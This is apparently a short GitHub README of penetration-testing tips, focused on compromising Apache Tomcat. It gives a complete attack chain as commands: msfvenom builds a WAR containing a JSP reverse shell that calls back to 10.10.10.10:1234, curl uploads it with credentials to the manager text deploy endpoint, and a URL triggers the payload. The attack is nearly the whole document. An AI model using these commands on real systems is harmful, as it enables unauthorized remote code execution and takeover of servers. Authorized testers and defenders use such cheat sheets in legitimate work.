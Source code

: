 # Pentips
Usefull penetration testing tips

##### Tomcat 
Deploy a new application archive (WAR) remotely without manager-gui role using curl.
<br/>Required roles : **manager-script** (tomcat-users.xml)
(By default, no user is included in the "manager-gui" role required to operate the "/manager/html" web application)

In order to produce a new application archive (WAR) containing JSP reverse shell, you can use **msf-venom**
<br/>`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f war > rev.war`

Deploy new application archive (WAR) remotely using curl
<br/>`curl -X PUT -T rev.war http://tomcat:password@10.10.10.50:8080/manager/text/deploy?path=/applicationname`

Access new application archive to execute the JSP payload
<br/>`http://10.10.10.50:8080/applicationname/vnmsydlc.jsp`
